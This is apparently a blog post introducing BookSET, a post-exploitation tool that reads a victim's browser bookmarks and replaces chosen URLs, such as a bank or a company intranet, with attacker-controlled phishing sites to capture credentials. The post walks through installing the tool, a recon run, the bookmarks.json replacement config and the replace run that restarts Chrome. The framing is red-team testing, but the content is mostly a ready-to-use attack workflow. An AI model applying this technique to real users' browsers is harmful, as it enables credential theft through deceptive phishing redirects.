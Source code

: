 ```yaml
---
layout: single
title: BookSET - a simple Post-Exploitation Tool
excerpt: #"This scam was funn to found"
date: 2023-03-10
classes: wide
header:
  teaser: /assets/images/bookset/banner.png
  teaser_home_page: true
  icon: #/assets/images/hackthebox.webp
categories:
  - Infosec
tags:  
  - tools
  - redteam
  - post-exploitation
---
```


It's been a while since I didn't dare to create something and this time I bring you this tool that I think can add an interesting result to all those tests that we have as a red team for different companies.

Sometimes when we execute red team exercises, even after having achieved access to a certain level, we need to go a little further, such as obtaining user access credentials and that is why I have thought of this tool.

![](/assets/images/bookset/banner.png)


BookSET - is intended to be able to modify BookMarks mainly for Google Chrome, but tests were done on Edge and Brave Browsers, remember that this script can be used to capture some credentials with Phishing sites or just redirect the "victim" to your EvilServer.

# ¿How it works? :

Let's clone the repository and install some libraries:

```bash
git clone https://github.com/edwardosorio/BookSET.git

cd BookSET

pip install -r requirements.txt

```
that's it :D !!


## [+] Help ! :

if you need to know the parameters from the script, pls type:

```bash
python bookSET.py -h


 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


[ just a simple post-exploitation tool :) by _mrpack ]

usage: bookSET.py [-h] [-recon] [-replace]

Get and Replace all Urls from Google Chrome BookMarks

optional arguments:
  -h, --help  show this help message and exit
  -recon      Get all URLs Bookmarks
  -replace    Replace URLs Bookmarks


```


## [+] Recon Mode :

If you want to know what BookMarks the target has, then we just need to execute the following command line:

```bash
python bookSET.py -recon

```

and the output should be something like this:

```bash

 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


[ just a simple post-exploitation tool :) by _mrpack ]

[+] Getting Urls from BookMarks:
 
 - https://www.facebook.com
 - https://www.bank.com
 - https://www.twitter.com
 - https://www.instagram.com
 - https://intranet.companie.org

[+] Total of BookMarks identified : [5]

```

## [+] bookmarks.json file content :

Now that we know all the BookMarks that the target has, we can check all the URLs and just make a few "fake websites"  for some URLs that we want... 

Once we make the phishing sites, we can configure our "bookmarks.json" file, the content of "bookmarks.json" it's easy to understand, and the "current_url" it's the URL that we want to change and replace it with "new_url":

```bash

{
    "bookmark_bar": [
      {
        "current_url": "https://www.bank.com/",
        "new_url": "https://www.fakebank.com/"
      },
      {
        "current_url": "https://intranet.companie.org/",
        "new_url": "https://intranet.fakecompanie.org/"
      }
    ]
  }
  
  ```

## [+] Replace Mode :

Now that we configured the bookmarks.json file we can execute again our script with -replace parameter:

```bash
python bookSET.py -replace

```

and the output should be something like this:

```bash

 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


[ just a simple post-exploitation tool :) by _mrpack ]

[+] URLs modified:

     [-] https://www.fakebank.com/
     [-] https://intranet.fakecompanie.org/

[+] Total of BookMarks replaced : [2]
Chrome it's running !!

[+] Chrome was Closed !
...
...
...
...
[+] Opening Chrome !

[+] Done !!

```
once the script finished we can check all the changes.

![](/assets/images/bookset/fakebank.png) 

![](/assets/images/bookset/intranetcompanie.png)



NOTE: This script was tested for the following Web Browsers:

- Google Chrome
- Edge
- Brave

And tested for the following O.S:

- windows
- linux
- mac

You just need to change the Browser Path

## Conclusions :

- There are a lot of ways to follow and to exploit to get better results.
- Users don't check the URLs from bookmarks because they make that bookmark, then they trust when they click it ... please don't use this for bad purposes.


